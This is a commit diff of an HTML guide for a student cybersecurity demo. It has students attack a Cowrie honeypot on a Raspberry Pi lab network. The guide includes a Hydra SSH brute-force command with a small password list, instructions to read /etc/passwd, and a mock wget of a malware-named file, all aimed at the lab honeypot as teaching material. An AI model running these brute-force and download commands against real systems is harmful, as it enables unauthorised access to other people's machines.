

Before and after one commit to CCRI-Cyberknights/pi_stemday, a plain HTML site: page pi_demo/readme_cowrie.html in a window 1280 px wide. Shown: the part 377-1953 px from the top of the page at 94% size, without its empty margins (208-1071 px from the left). Before the commit the page ends 1765 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
flow and formatting updates

```diff
--- a/pi_demo/readme_cowrie.html
+++ b/pi_demo/readme_cowrie.html
@@ -1,14 +1,29 @@
-<!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><title>Cowrie Honeypot Guide</title>
-<style>body { font-family: Arial, sans-serif; background-color: #f4f4f9; padding: 40px; line-height: 1.6; } .container { background-color: white; padding: 30px; border-radius: 8px; max-width: 800px; margin: auto; box-shadow: 0 4px 8px rgba(0,0,0,0.1); } h1 { color: #333; font-size: 2.2em; } h2 { color: #007BFF; margin-top: 25px; border-bottom: 2px solid #eee; padding-bottom: 5px; } code { background: #1e1e1e; padding: 6px 10px; border-radius: 4px; font-size: 1.1em; color: #00ff00; display: inline-block; font-family: monospace; } .terminal-box { background-color: #1e1e1e; color: #00ff00; padding: 15px; border-radius: 5px; font-family: monospace; margin: 15px 0; } ul, ol { font-size: 1.1em; margin-bottom: 20px; } li { margin-bottom: 10px; }</style>
-</head><body><div class="container">
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <title>Cowrie Honeypot Guide</title>
+    <style>
+        body { font-family: Arial, sans-serif; background-color: #f4f4f9; padding: 40px; line-height: 1.6; }
+        .container { background-color: white; padding: 30px; border-radius: 8px; max-width: 800px; margin: auto; box-shadow: 0 4px 8px rgba(0,0,0,0.1); }
+        h1 { color: #333; font-size: 2.2em; }
+        h2 { color: #007BFF; margin-top: 25px; border-bottom: 2px solid #eee; padding-bottom: 5px; }
+        code { background: #1e1e1e; padding: 6px 10px; border-radius: 4px; font-size: 1.1em; color: #00ff00; display: inline-block; font-family: monospace; }
+        .terminal-box { background-color: #1e1e1e; color: #00ff00; padding: 15px; border-radius: 5px; font-family: monospace; margin: 15px 0; }
+        ul, ol { font-size: 1.1em; margin-bottom: 20px; }
+        li { margin-bottom: 10px; }
+    </style>
+</head>
+<body>
+<div class="container">
     <h1>🍯 Cowrie Honeypot: The Trap</h1>
     <p><strong>WARNING: This is not a web application.</strong> To play this challenge, you need to open the <strong>Terminal</strong> application on your Raspberry Pi desktop (the black box icon at the top of the screen).</p>
 
     <h2>🧠 The Concept</h2>
     <p>A honeypot is an "Active Defense" trap. Instead of trying to keep hackers out, cybersecurity engineers set up fake, highly vulnerable servers specifically designed to lure them in.</p>
-    <p>When a hacker attacks a honeypot, they think they have successfully breached a real company. In reality, they are trapped in a fake, simulated computer system, and the security engineers are recording every single command they type to study their tactics.</p>
+    <p>When a hacker attacks a honeypot, they think they have successfully breached a real company. In reality, they are trapped in a fake, simulated computer system. The honeypot acts exactly like a real server, responding to commands and simulating a realistic environment. This tricks the attacker into wasting their time and revealing their tools, all while keeping the actual network completely safe.</p>
 
-    <h2>🎯 Mission 1: Break In</h2>
+    <h2>🚪 Mission 1: Break In (Manual)</h2>
     <p>Your first goal is to force your way into the server using a protocol called SSH (Secure Shell). Because this server is a trap, the administrators intentionally left a terrible password on the root (admin) account.</p>
     <ol>
         <li>Open your Terminal.</li>
@@ -17,8 +32,18 @@
         <li>When it asks for a password, try guessing awful, common passwords. <em>(Hint: Try <code>123456</code>, <code>admin</code>, or <code>password</code>)</em>. Note: When typing passwords in Linux, the cursor will not move. Just type it and hit Enter!</li>
     </ol>
 
-    <h2>🎯 Mission 2: Explore the System</h2>
-    <p>If you guessed the password correctly, your terminal prompt will change to <code>root@server:~#</code>. You are now "inside" the honeypot!</p>
+    <h2>⚔️ Mission 2: Automate the Attack (Hydra)</h2>
+    <p>Real hackers do not sit there guessing passwords one by one. They use automated tools to try hundreds of passwords a second. You have a tool called <strong>Hydra</strong> installed on your system to do exactly this.</p>
+    <ol>
+        <li>First, open a new Terminal tab and create a small "dictionary" of passwords. Type this command to create a file called <code>words.txt</code>:<br>
+        <div class="terminal-box">printf "qwerty\nadmin\npassword\n123456\n" > words.txt</div></li>
+        <li>Now, unleash Hydra against your target! Replace the IP and Port below with the ones from your dashboard:<br>
+        <div class="terminal-box">hydra -l root -P words.txt ssh://192.168.2.10 -s 2221</div></li>
+        <li>Watch the terminal as Hydra rapidly tests every password in your list against the server until it finds the correct one!</li>
+    </ol>
+
+    <h2>🔍 Mission 3: Explore the System</h2>
+    <p>Once you have the password, log in via SSH (like you did in Mission 1). Your terminal prompt will change to <code>root@server:~#</code>. You are now "inside" the honeypot!</p>
     <p>Because there is no mouse or graphical menu, you have to navigate the computer using text commands. Try typing these real Linux commands into the terminal to see what you can find:</p>
 
     <div class="terminal-box">
@@ -35,10 +60,12 @@
         <em>(Concatenate: This forces the server to print out the master list of all user accounts registered to the machine.)</em>
     </div>
 
-    <h2>🎯 Mission 3: The Download</h2>
-    <p>Hackers often try to download malicious files once they break into a server. Try downloading a fake file from the internet using the `wget` command:</p>
+    <h2>📥 Mission 4: The Download</h2>
+    <p>Hackers often try to download malicious files once they break into a server. Try downloading a fake file from the internet using the <code>wget</code> command:</p>
     <div class="terminal-box">
         <strong>wget http://google.com/malware.exe</strong><br>
-        <em>(Notice how the honeypot pretends to download the file, even though it isn't connected to the real internet!)</em>
+        <em>(Notice how the honeypot pretends to download the file, perfectly simulating an internet connection even though it isn't connected to the real web!)</em>
     </div>
-</div></body></html>
+</div>
+</body>
+</html>
```
Also changed, not shown: readme_cowrie.html (+38 -11 lines), CyberKnights_2.png (added), pi_demo/CyberKnights_2.png (added), 3 other files.
